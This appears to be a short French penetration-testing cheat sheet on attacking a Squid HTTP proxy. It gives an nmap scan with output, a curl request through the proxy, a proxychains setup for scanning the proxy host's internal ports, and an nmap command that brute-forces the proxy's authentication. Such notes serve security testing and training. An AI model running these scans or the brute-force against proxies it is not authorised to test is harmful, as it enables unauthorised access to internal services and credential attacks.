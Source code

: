 ### Scanner un squid

```
nmap -sV -p 3128 192.42.185.3
PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 3.5.12
```

`curl -x 192.42.185.3:3128 127.0.0.1`

[Proxychains](https://github.com/haad/proxychains)

```
[Après avoir modifié le fichier /etc/proxychains.conf en rajoutant une ligne 'http <IP> <port>'
et en commentant la ligne socks 4]
proxychains nmap -sV -sT -p- 127.0.0.1
[...]
|S-chain|-<>-192.42.185.3:3128-<><>-127.0.0.1:1337-<><>-OK
|S-chain|-<>-192.42.185.3:3128-<><>-127.0.0.1:3128-<><>-OK
```
### Bruteforcer l'authent du proxy

`nmap --script http-proxy-brute -vv -p 3128 192.113.9.3`
